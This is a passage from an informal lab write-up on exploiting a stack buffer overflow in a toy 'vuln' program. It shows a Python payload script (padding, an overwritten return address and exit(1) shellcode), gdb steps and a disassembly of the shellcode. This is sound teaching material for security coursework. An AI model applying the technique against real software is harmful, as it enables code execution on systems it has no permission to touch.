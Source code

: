 And voila, we have written machine code payload into a file called `payload`. How very developer-like to name things the same thing. Anyway, `struct.pack` gives us a `bytes` type object in a certain format – which is `"<I"` which is a little-endian byte order.

Does that actually work? Lets find out (Haha did you get it? No? Okay, it was a stupid reference anyway):

Lets load the `payload` into `vuln` with the command `r < payload` and run the whole thing from the beginning. In theory, it should ***penetrate*** our stack so **deep** it **fills up** the `rip` with *something* (`0xffffcdf8`):

![[Pasted image 20240217080558.png]]

This is our `ret` breakpoint, lets go one step from here with `si`:
![[Pasted image 20240217080657.png]]

We did manage to ***penetrate and fill up*** our `rip` and control execution, but we’re missing one crucial thing for our payload. The shell code for `exit(1)`! Anyway, lets continue our current run first for educational purposes.
![[Pasted image 20240217080946.png]]

So it gives us a `SIGILL`, probably because its doing something sinister, i dunno (the CPU dunno too so it just gives `SIGILL`). Anyway, lets do the shell code now. I tried just copying the assembly incantation from `mp1.pdf` but it doesn’t work for me idk.
![[Pasted image 20240217082053.png]]
![[Pasted image 20240217082122.png]]

So I’ll just copy the bytes directly and see what happens:

``` python
import struct

# we want to write past the sfp and change rip
padding = b"A" * 12
ret_address = 0xffffcdf8
redirect = struct.pack("<I", ret_address)
exit_one = b"\x31\xc0\x40\x89\xc3\xcd\x80" 

payload = padding + redirect + exit_one

with open("payload", "wb") as f:
	f.write(payload)
```

Now lets regenerate payload with `python payload.py` and rerun `vuln` in `gdb`
![[Pasted image 20240217082535.png]]

And just like that, we can see the shell code being executed in (little-endian) order in the stack. However, let’s not be *script kiddies* and actually analyze what it does:
```asssembly
118a: 31 c0 xor %eax,%eax ; set eax to 0
118c: 40 inc %eax         ; incremenet eax by 1
118d: 89 c3 mov %eax,%ebx ; move eax into ebx (now ebx = 1)
118f: cd 80 int $0x80     ; trigger interrupt, invoke syscall (eax)
```
